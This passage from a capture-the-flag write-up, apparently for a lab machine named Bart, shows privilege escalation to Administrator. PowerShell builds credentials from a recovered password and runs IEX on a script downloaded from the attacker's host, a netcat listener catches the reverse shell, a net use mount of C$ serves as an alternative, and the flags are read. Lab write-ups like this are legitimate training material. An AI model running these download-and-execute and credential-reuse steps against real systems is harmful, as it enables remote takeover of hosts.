 ```

PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"
PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"
PS C:\inetpub\wwwroot\internal-01\log> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\inetpub\wwwroot\internal-01\log> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost

```

```

root@kali# nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 50593
Windows PowerShell running as user Administrator on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Documents>whoami
bart\administrator

```

#### net use

Just gets access to the filesystem, but that’s all that is needed to get the flags:

```

PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
The command completed successfully.

PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> x:
PS X:\> cd users\administrator\desktop
PS X:\users\administrator\desktop> ls

    Directory: X:\users\administrator\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/02/2018     12:51             32 root.txt

```

### user.txt and root.txt

With admin shell, can grab both flags:

```

PS C:\Users\Administrator\Documents> cat C:\users\h.potter\user.txt
625b6c7a...
PS C:\Users\Administrator\Documents> cat C:\users\Administrator\Desktop\root.txt
0074a38e...

```
